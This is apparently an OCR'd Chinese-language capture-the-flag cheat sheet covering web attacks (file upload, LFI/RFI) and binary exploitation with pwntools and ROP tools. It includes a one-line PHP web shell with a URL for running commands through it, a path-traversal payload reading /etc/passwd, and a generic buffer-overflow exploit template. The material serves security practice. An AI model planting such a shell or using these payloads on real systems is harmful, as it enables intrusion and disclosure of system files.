 ### 🔹 文件上传
```php
<?php system($_GET['cmd']); ?>
```
访问：`http://target/uploads/shell.php?cmd=ls`

### 🔹 LFI / RFI
```
?file=../../../../etc/passwd
```

### 🔹 工具清单
Burp Suite、sqlmap、ffuf、dirsearch、nikto

---

<a id="2-pwn程序漏洞利用"></a>
## 2️⃣ Pwn（程序漏洞利用）

### 🔹 初步分析
```bash
file vuln
checksec --file=./vuln
strings vuln | grep -i flag
```

### 🔹 溢出测试
```python
from pwn import *
p = process('./vuln')
p.sendline(b"A"*300)
p.wait()
```
在 gdb 中确认 EIP 覆盖位置。

### 🔹 ROP 链
```bash
ROPgadget --binary ./vuln --only "pop|ret"
```

### 🔹 Exploit 模板
```python
from pwn import *
elf = ELF('./vuln')
p = process('./vuln')
payload = b"A"*offset + p64(ret_addr)
p.sendline(payload)
p.interactive()
```

### 🔹 工具清单
gdb + pwndbg, pwntools, checksec, ROPgadget, Ghidra

---